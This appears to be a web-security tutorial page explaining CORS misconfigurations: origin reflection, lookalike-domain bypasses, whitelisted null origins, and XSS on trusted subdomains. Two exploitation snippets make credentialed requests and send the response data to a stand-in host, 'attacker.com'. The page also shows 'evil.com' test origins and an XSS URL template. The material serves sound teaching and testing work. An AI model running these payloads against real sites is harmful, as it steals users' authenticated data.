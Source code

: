 ```yaml
---
title: "CORS misconfiguration"
weight: 7
description: "Learn how misconfigured CORS policies can expose sensitive data through origin reflection, null origin whitelisting, and XSS on trusted subdomains."
---
```


# CORS misconfiguration

**Impact**: If a web response includes sensitive data (like an API key or CSRF token), and CORS is misconfigured, an attacker could steal that data using a malicious website.

---

## What is CORS?

CORS (Cross-Origin Resource Sharing) is a browser security feature that controls how web applications interact with resources hosted on different origins. It's designed to prevent malicious websites from making unauthorized requests to other sites on behalf of the user.

{{< hint style=notes >}}
**Note**: An "origin" in CORS includes the protocol, domain, and port. So `https://example.com` and `http://example.com` are considered different origins
\[[↗](https://developer.mozilla.org/en-US/docs/Glossary/Origin)].
{{< /hint >}}

---

## Origin Reflection in ACAO Header

Some vulnerable servers reflect the `Origin` header in the `Access-Control-Allow-Origin` response without validating it.

**How to Detect**

Send a request with a custom `Origin` header (e.g., `Origin: https://evil.com`) and check if the same origin is reflected back.

```http
Access-Control-Allow-Origin: https://evil.com
```

{{< hint style=warning >}}
**Warning**: If `Access-Control-Allow-Credentials: true` is also present, an attacker can send authenticated requests from a malicious origin.
{{< /hint >}}

**Exploitation Example**

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = function () {
    location = 'https://attacker.com/log?data=' + this.responseText;
  };
  req.open('GET', 'https://vulnerable-website.com/secret-data', true);
  req.withCredentials = true;
  req.send();
</script>
```

---

## Bypassing Origin Checks with Similar Domains

Some applications whitelist trusted origins without strict validation, making it possible to bypass checks using similar-looking domains.

**Examples**:

- `hackersnormal-website.com`
- `normal-website.com.attacker.com`

{{< hint style=notes >}}
**Note**: You need to know or guess the whitelisted origins to attempt this.
{{< /hint >}}

---

## Whitelisted `null` Origin

If the server allows `null` as an origin, it may be vulnerable to data theft through sandboxed iframes.

**How to Detect**

Send a request with:

```http
Origin: null
```

and check for:

```http
Access-Control-Allow-Origin: null
```

**Exploitation Example**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
  var req = new XMLHttpRequest();
  req.onload = function () {
    location = 'https://attacker.com/log?data=' + this.responseText;
  };
  req.open('GET', 'https://vulnerable-website.com/secret-data', true);
  req.withCredentials = true;
  req.send();
</script>"></iframe>
```

---

## Using XSS on a Trusted Subdomain to Exploit CORS

If a site allows CORS requests only from a trusted subdomain and you find an XSS vulnerability on that subdomain, you can use the XSS to steal data via CORS.

**Example Response:**

```http
Access-Control-Allow-Origin: https://sub.vulnerable.com
Access-Control-Allow-Credentials: true
```

**Exploitation Flow:**

1. Find XSS on `https://sub.vulnerable.com`.
2. Inject malicious script that performs a CORS request to the main domain.
3. Steal the sensitive response.

URL:
```md
https://sub.vulnerable.com/?xss=<script>...your-code...</script>
```


---

## The Role of SameSite Cookies

CORS exploits often rely on the browser sending cookies along with cross-origin requests. This depends on the `SameSite` attribute of the cookie.
To exploit CORS with `withCredentials=true`, the session cookie must be accessible (i.e., not blocked by `SameSite=Strict`).